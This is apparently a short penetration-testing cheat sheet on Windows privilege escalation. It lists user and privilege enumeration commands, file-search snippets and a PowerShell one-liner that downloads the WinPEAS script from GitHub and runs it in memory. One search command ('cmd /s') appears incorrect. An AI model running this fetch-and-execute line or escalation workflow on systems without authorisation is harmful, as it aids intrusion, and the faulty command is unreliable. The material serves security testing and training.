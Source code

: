 # Windows Privilege Escalation

## System Enumeration

### List Users

```batch
net user
```

### User Privileges

```batch
whoami /priv
```

### Search Files

{% hint style="info" %}
If you dont know the full path of the file or even the extension, you can use: `*<FILE>*`
{% endhint %}

```batch
cmd /s <FILE>
```

### List Recursive Directories (PowerShell)

```powershell
ls . -Recurse -Force -Name -Filter "<filter>" | foreach { ls -for $_ }
```

### [WinPEAS](https://github.com/peass-ng/PEASS-ng)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
